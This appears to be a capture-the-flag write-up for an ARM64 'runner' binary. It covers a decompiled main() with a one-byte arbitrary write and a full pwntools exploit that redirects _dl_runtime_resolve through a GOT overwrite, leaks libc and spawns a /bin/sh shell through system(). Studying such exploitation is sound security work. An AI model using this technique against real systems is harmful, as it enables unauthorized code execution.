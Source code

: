 # main() function analysis

```c
0 void main(void) {
1   code *UNRECOVERED_JUMPTABLE;
2   char *pcVar1;
3   long exit;
4   char buf [16384];
5   char *addr;
6   uint exit_status;
7   char *byte;
8   int proc_self_maps;
9   char *data_;
10
11   if (0 < bad_pwner_returning_to_main) {
12        /* WARNING: Treating indirect jump as call */
13     UNRECOVERED_JUMPTABLE = (code *)UndefinedInstructionException(0,0x110ac0);
14     (*UNRECOVERED_JUMPTABLE)();
15     return;
16   }
17   bad_pwner_returning_to_main = bad_pwner_returning_to_main + 1;
18   setbuf(_stdout,(char *)0x0);
19   setbuf(_stdin,(char *)0x0);
20   proc_self_maps = open("/proc/self/maps",0);
21   read(proc_self_maps,buf,0x4000);
22   data_ = buf;
23   while( true ) {
24     byte = strchr(data_,10);
25     if (byte == (char *)0x0) break;
26     *byte = '\0';
27     pcVar1 = strstr(data_,"run");
28     if (pcVar1 != (char *)0x0) {
29       puts(data_);
30     }
31     data_ = byte + 1;
32   }
33   puts("exit status >");
34   read(0,buf,16384);
35   exit = strtol(buf,(char **)0x0,0x10);
36   exit_status = (uint)exit;
37   puts("address >");
38   read(0,buf,16384);
39   addr = (char *)strtol(buf,(char **)0x0,0x10);
40   puts("character >");
41   read(0,buf,16384);
42   *addr = buf[0];
43   printf("exiting with status: %d\n",(ulong)exit_status);
44       /* WARNING: Subroutine does not return */
45   ::exit(exit_status);
46 }
```

```c
40   puts("character >");
41   read(0,buf,16384);
42   *addr = buf[0];
```
- in this snippet we see that we can write any address and overwrite whatever pointer its holding, but only one character.

---

- By searching for the offset of the start of the `.got.plt` section of the binary in ghidra and adding that to the base address of the binary we can view the .got.plt section in the binary with GDB

- the 3rd qword is where the `dl_runtime_resolve` function is.

![](https://i.imgur.com/9U3oJDF.png)
- We will utilize the fact that we can write to the LSB of an arbitrary address we chose `dl_runtime_resolve`; Bypassing the part where it stores its registers and adjusting the stack causing it to restore its registers with data that partially overlaps our buffer instead.

- The technique employed is only **_possibly_** due to the architecure being ARM, the register stashing would be completely different on other architectures.

---

# Exploit Code:
```python
from pwn import *  
  
  
elf = context.binary = ELF('./runner_patched')  
libc = elf.libc  
context(os="linux", arch="aarch64")  
context.log_level = "debug"  
  
gs = ""  
  
def start():  
   if args.GDB:  
       return gdb.debug(elf.path, gdbscript=gs, api=True)  
   elif args.REMOTE:  
       return remote(host, port)  
   else:  
       return process(["qemu-aarch64", "-L", ".", elf.path])  
  
io = start()  
  
def rebase() -> int:  
   base_addr = int(io.recvline().split(b"-")[0], 16)  
   return base_addr  
  
base = rebase()  
log.info(f"bin base @ {base:#x}")  
elf.address = base  
  
  
linker_func_resolver = elf.got.exit - 8  # address of the ptr that points to _dl_runtime_resolve  
jump_byte = p8(0xac)                     # overwrite LSB with 0xac to skip register stashing  
  
  
def send_payload(address: int, payload: bytes, exit_status=False):  
   if exit_status != False:  
       io.sendlineafter(b"exit status >\n", f"{exit_status}".encode())  
   io.sendlineafter(b"address >\n", f"{address:08x}".encode())  
   io.sendlineafter(b"character >\n", payload)  
  
padd = b"\x00" * 0x88  
payload_one = jump_byte + b"pwnpope"       # our LSB overwrite padded with 7 more bytes that don't matter, just for allignment. (ends up in x3)  
payload_one += p64(elf.got.puts)           # got address puts. (ends up in x0)  
payload_one += padd                        # padd out buffer to skip over: x4-x9 and sp  
payload_one += p64(elf.got.printf)         # got address of printf (ends up in x17)  
payload_one += p64(elf.address + 0x10bcc)  # return address for printf, back to main() skipping over the main return check. (ends up in x30)  
  
send_payload(exit_status=0x1337, address=linker_func_resolver, payload=payload_one)  # first payload:  
# info: this payload is meant to leak the address of puts so we can rebase libc  
# more: we will overwrite the LSB of the _dl_runtime_resolve function with 0xac, effectively  
# skipping the register stashing and using our user controlled buffer for inputs to certain registers.  
  
puts_leak = int.from_bytes(io.recvuntil(b"address").replace(b"address", b""), "little")  
libc.address = puts_leak - libc.sym.puts  
log.info(f"libc base @ {libc.address:08x}")  
  
  
bin_sh = next(libc.search(b"/bin/sh\0"))  
print(f"{bin_sh:#x}")  
payload_two = jump_byte + b"pwnpope"  
payload_two += p64(bin_sh)  # x0  
payload_two += p64(bin_sh)  # x1  
payload_two += padd[:-8]    # padd out buffer skipping x4-x9 and sp  
payload_two += p64(elf.got.strstr)  # x17  
payload_two += p64(libc.sym.system) # x30  
# payload_two:    
# we're going back to the _dl_runtime_resolve function one more time in order to achieve a shell  
# A: put ptr to string /bin/sh\0 into x0 & x1 as args for strstr()  
# B: padd the buffer to reach x17 and x30 to call strstr and then use the result of strstr to pass as an argument to the return address which is system  
  
io.sendlineafter(b">\n", f"{linker_func_resolver:08x}".encode())  
io.sendlineafter(b">\n", payload_two)
```